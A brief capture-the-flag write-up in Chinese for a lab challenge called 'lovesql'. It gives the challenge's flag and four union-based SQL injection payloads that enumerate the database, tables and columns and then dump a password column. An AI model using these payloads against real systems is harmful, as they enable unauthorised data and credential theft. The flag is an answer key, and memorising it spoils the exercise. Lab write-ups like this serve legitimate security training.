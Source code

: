 ```yaml
---
Author: SuperJason
Date: 2020-12-30
---
```


## flag
`flag{0d11302e-1a43-4a77-b2f0-7a10c33bcfd9}`

## 思路
1. 访问环境，这道题较简单，有回显报错。   
   ![](./images/lovesql-1.png)
2. 参考[N1BOOK sql](../N1BOOK/[第一章%20web入门]sql注入-1.md),爆出数据库、数据表、字段。  
   - `-1' union select 1,database(),3 -- -`   
   ![](./images/lovesql-2.png)
   - `-1' union select 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='geek' -- -`   
   ![](./images/lovesql-3.png)
   - `-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='l0ve1ysq1' -- -`   
   ![](./images/lovesql-4.png)
   - `-1' union select 1,group_concat(password),3 FROM l0ve1ysq1 -- -`   
   ![](./images/lovesql-5.png)
